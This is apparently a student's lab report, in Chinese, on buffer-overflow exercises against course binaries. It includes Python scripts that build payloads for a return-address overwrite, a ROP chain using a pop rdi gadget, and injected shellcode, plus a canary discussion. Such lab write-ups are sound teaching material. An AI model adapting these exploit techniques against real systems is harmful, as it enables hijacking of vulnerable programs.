


# 栈溢出攻击实验

## 题目解决思路
  
### Problem 1: 
- **分析**：problem1是最简单最基本的，problem1 程序无任何保护机制，通过反汇编代码分析，发现func函数存在栈溢出漏洞：strcpy函数将用户输入复制到rbp-8位置的缓冲区，但未检查输入长度。缓冲区仅8字节，而输入可覆盖后续的保存rbp和返回地址。然后我们主要目的是跳转到func1,即可输出"Yes!I like ICS!"（真的嘛？还挺喜欢吧），func1函数地址：0x401216，进行偏移计算：缓冲区起始是rbp-8，返回地址位置为rbp+8，偏移量：16字节，由于地址0x401216的高位字节为0，strcpy会在遇到0字节时停止复制，因此只需覆盖返回地址的低4字节：
- **解决方案**：python代码如下
```python
payload = b'A' * 16 + b'\x16\x12\x40\x00'

with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload for Problem1 written to ans1.txt")
```
- **结果**：

### Problem 2:
- **分析**：开启了NXenabled，因此不能直接覆盖，要通过ROP 攻击的方式来进行（利用程序中已有的小代码片段来拼接），然后具体分析此问题，func函数使用memcpy复制数据，memcpy复制56字节到rbp-8处的缓冲区，可覆盖返回地址。我们要执行func2函数并传递参数0x3f8，输出"Yes!I like ICS!"，我们需要ROP链：pop rdi; ret gadget + 参数 + func2地址，然后观测一下这个pop rdi gadget：0x4012c7和func2目标地址：0x40124c，于是我们基于此来构造payload
- **解决方案**：
```python
import struct

def p64(x):
    return struct.pack('<Q', x)

payload = b'A' * 8                    # 填充缓冲区
payload += b'B' * 8                   # 覆盖保存rbp
payload += p64(0x4012c7)             # pop rdi; ret
payload += p64(0x3f8)                # 参数
payload += p64(0x40124c)             # func2地址
payload += b'C' * (56 - len(payload)) # 填充至56字节

with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload for Problem2 written to ans2.txt")
```
- **结果**：

### Problem 3: 
- **分析**：Problem 3 的程序未启用 canary或 NX保护，但其关键难点在于：不能直接跳转到 func1（0x401216），因为该函数需要传入参数 edi = 0x72（即十进制 114）才能输出目标字符串 “Your lucky number is 114”。而标准的 ret2func 方式无法传递参数。

进一步分析反汇编代码发现，程序中存在一个特殊函数 jmp_xs（地址 0x401334），其行为如下：
```
mov    %rax, 0x21cd(%rip)   将 saved_rsp 存入全局变量
mov    %rax,-0x8(%rbp)
addq   $0x10, -0x8(%rbp)    rsp + 0x10
mov    -0x8(%rbp),%rax
jmp    *%rax                跳转到 rsp+0x10 处执行
```
更重要的是，在 func 函数（被 main 调用）中，有如下关键指令：
```
mov    %rsp, %rax
mov    %rax, 0x21a1(%rip)   将当前栈指针保存到全局变量 saved_rsp (0x403510)
```
这意味着，在 func 执行时，当前栈顶地址被保存到了全局符号 saved_rsp 中。而 jmp_xs 正是读取该地址并跳转到 saved_rsp + 0x10 处执行。
- 将 rdi 设置为 0x72（114）；
- 跳转到 func1（0x401216）执行。
由于 func 内部使用 memcpy 从文件读取最多 64 字节到局部缓冲区，我们可安全地将 shellcode 放入前 32 字节，后接覆盖 saved_rbp 和返回地址。
- **解决方案**：
```python
import struct

# 1. 编写 Shellcode
shellcode = b'\x48\xc7\xc7\x72\x00\x00\x00'  # mov rdi, 0x72
shellcode += b'\x48\xc7\xc0\x16\x12\x40\x00' # mov rax, 0x401216
shellcode += b'\xff\xe0'                     # jmp rax

# 2. 填充 Buffer 
# 前部分是 Shellcode，后面用 NOP (0x90) 填充
padding_len = 32 - len(shellcode)
payload = shellcode + b'\x90' * padding_len

# 3. 覆盖 Saved_RBP 
payload += b'B' * 8

# 4. 覆盖返回地址 -> jmp_xs (0x401334)
jmp_xs_addr = 0x401334
payload += struct.pack("<Q", jmp_xs_addr)

with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：体现canary的保护机制是什么：通过 %fs:0x28 读取全局 canary 值，存入栈帧，在函数返回前校验。以此来防止栈溢出攻击，然后本题利用程序逻辑在 Canary 校验前就调用 exit()，使校验代码不可达。然后我们观测一下func函数，发现如果我输入-1的话就会打印通关信息，所以，不需要溢出，也不需要绕过 Canary，只需正常输入 -1 即可通关。
- **解决方案**：随便输入两个字符串，然后输入-1即可
- **结果**：

## 思考与总结
加深了对于缓冲区溢出攻击的认识，同时还对诸多保护机制的理解进行了加深，又提升了一点点的阅读汇编代码能力。

做的也算比较急，时间比较的紧，用的时间其实也不多，总体还是挺有意思的一个lab

这个本来应该是在服务器上完成的，但是由于在校外，于是托一个朋友帮我运行了一点结果，因此结果一栏并非我们学校的服务器的界面。
## 参考资料

没有啊
